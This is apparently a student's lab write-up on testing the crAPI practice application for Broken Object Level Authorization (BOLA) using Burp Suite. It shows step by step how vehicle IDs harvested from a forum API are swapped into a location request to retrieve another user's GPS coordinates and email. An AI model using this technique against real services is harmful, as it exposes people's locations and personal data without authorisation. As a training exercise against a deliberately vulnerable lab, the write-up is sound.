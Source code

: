 For this lab the instructor logs in as himself, then when the the page loads we are at localhost:8888/dashboard which loads up our dashboard, 

The web application from crapi labs gave us a vechile and its pin so it loads 

VIN: 1GIGF95XMMN431588
Company :	Mercedes-Benz
Model :	GLA Class
Fuel Type :	PETROL
Year :	2025

with an image of our car on the dashboard, from here if we visit the Community tab on the nav bar, we are brought to what looks like a community forum url is `http://localhost:8888/forum` from here we click on one of the three posts we get the url `http://localhost:8888/post?post_id=p9YNVj5mQG9CssvvHfQrMm` and from here we have generated enough traffic on burp suite and we can go to check it out to start testing for BOLA

if we check the traffic we send the following to repeater:
GET /community/api/v2/community/posts/recent?limit=30&offset=0 

and from there we see the response is the following for that GET request

```json
{"posts":[{"id":"p9YNVj5mQG9CssvvHfQrMm","title":"Title 3","content":"Hello world 3","author":{"nickname":"Robot","email":"robot001@example.com","vehicleid":"4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5","profile_pic_url":"","created_at":"2025-01-14T04:08:46.339Z"},"comments":[],"authorid":3,"CreatedAt":"2025-01-14T04:08:46.339Z"},{"id":"wYNViivCKB9BTYM3MCpPcU","title":"Title 2","content":"Hello world 2","author":{"nickname":"Pogba","email":"pogba006@example.com","vehicleid":"cd515c12-0fc1-48ae-8b61-9230b70a845b","profile_pic_url":"","created_at":"2025-01-14T04:08:46.339Z"},"comments":[],"authorid":2,"CreatedAt":"2025-01-14T04:08:46.339Z"},{"id":"77tfYoggTUcQHQf247u5PH","title":"Title 1","content":"Hello world 1","author":{"nickname":"Adam","email":"adam007@example.com","vehicleid":"f89b5f21-7829-45cb-a650-299a61090378","profile_pic_url":"","created_at":"2025-01-14T04:08:46.332Z"},"comments":[],"authorid":1,"CreatedAt":"2025-01-14T04:08:46.332Z"}],"next_offset":null,"previous_offset":null,"total":3}

```

from here we go back to our burp suite http history we go send this following to repeater:

GET /identity/api/v2/vehicle/80c2d9f1-159f-4f79-a77d-ccf0ec47efb7/location 

and this is where we start testing for BOLA, we replace that vechile id in the url with one of the vechileid from the json response from /community and we paste into the request 
GET /identity/api/v2/vehicle/80c2d9f1-159f-4f79-a77d-ccf0ec47efb7/location 

so we change 

GET /identity/api/v2/vehicle/80c2d9f1-159f-4f79-a77d-ccf0ec47efb7/location 

to

GET /identity/api/v2/vehicle/4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5/

and we get this to return:

```json
{"carId":"4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5","vehicleLocation":{"id":3,"latitude":"37.746880","longitude":"-84.301460"},"fullName":"Robot","email":"robot001@example.com"}
```

this confirms BOLA since we are logged in as john@test.com

we are able to retrieve our own vechile information 
GET /identity/api/v2/vehicle/80c2d9f1-159f-4f79-a77d-ccf0ec47efb7/location 

but if we go to the community posts at /forum, check the http history and we found another vechcile id and used it in our request we get someone else vechile, we also get their email etc.
